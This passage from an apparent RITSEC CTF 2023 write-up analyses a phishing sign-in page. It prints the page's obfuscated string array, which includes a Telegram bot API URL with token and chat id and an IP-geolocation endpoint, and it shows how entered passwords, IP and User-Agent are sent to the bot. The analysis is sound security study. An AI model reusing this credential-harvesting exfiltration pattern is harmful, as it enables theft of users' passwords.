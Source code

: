 ```html
    }
</script>
```

**The first `<script>` element is just displaying the current year:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/RITSEC-CTF-2023/images/Pasted%20image%2020230401152628.png)

So we can just ignore that.

How about the second `<script>` element?

**It looks very complex to me... However function `F()` stands out to me:**
```js
var AC = ['val', '12ZidQyC', '20AFlrCY', 'Email: ', '63792quNVYn', 'substring', 'append', 'Region : ', 'slice', 'body', '139437pXYFEK', '#UserEmail', 'toUpperCase', 'click', 'Useragent : ', 'href', '88GpIPQU', '904cdojGd', '#submit', '#dname', '<img class=\"mb-4\" src=\"https://logo.clearbit.com/', 'lastIndexOf', 'charAt', 'Country : ', 'DateSent : ', '10311YpzJVd', '#dlogo', '#emailtext', 'City : ', '***', '#DateSent', 'toLocaleDateString', 'Password : ', 'city', 'text', 'url(\'https://logo.clearbit.com/', 'Password field missing!', 'Format : ', '<link rel=\"icon\" href=\"https://logo.clearbit.com/', ' Cloud Storage', 'https://ip.seeip.org/geoip', 'style', 'https://archive.org/details/VoiceMail_173', 'post', '/sendMessage', '\" alt=\"\" width=\"150\"  >', '4716964xBODFJ', '3724320KAqSuZ', '5852841790', 'Date Filled : ', '#inputPassword', '380874lxWkrT', '1170928pBbGzs', 'https://api.telegram.org/bot', 'head', '6055124896:AAFyQlC_8dr1GndB26ji4iV2ol2bPPQ9lq4'];
```

That weird array is interesting.

- It has an `archive.org` link: `https://archive.org/details/VoiceMail_173`
- Telegram API bot link: `https://api.telegram.org/bot`
- Grab public IP link: `https://ip.seeip.org/geoip`

Hmm... It seems like when we click "Sign in", ***it'll forward our password, IP address, `User-Agent` to the Telegram group??***

**Let's try to type some random password and send it:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/RITSEC-CTF-2023/images/Pasted%20image%2020230401153945.png)

**Burp Suite HTTP history:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/RITSEC-CTF-2023/images/Pasted%20image%2020230401154042.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/RITSEC-CTF-2023/images/Pasted%20image%2020230403150940.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/RITSEC-CTF-2023/images/Pasted%20image%2020230401154151.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/RITSEC-CTF-2023/images/Pasted%20image%2020230401154215.png)

As you can see, it indeed **grabbing our IP, password and other things to a Telegram API bot.**

Also, it brings us to a voice mail. However, nothing useful.

- Telegram API bot:

```json
{
    "ok": true,
    "result": {
        "message_id": 2357,
        "from": {
            "id": 6055124896,
            "is_bot": true,
            "first_name": "RIT_CTF_Telegram_Bot",
            "username": "rochesterissodamncoldbot"
        },
        "chat": {
            "id": 5852841790,
```
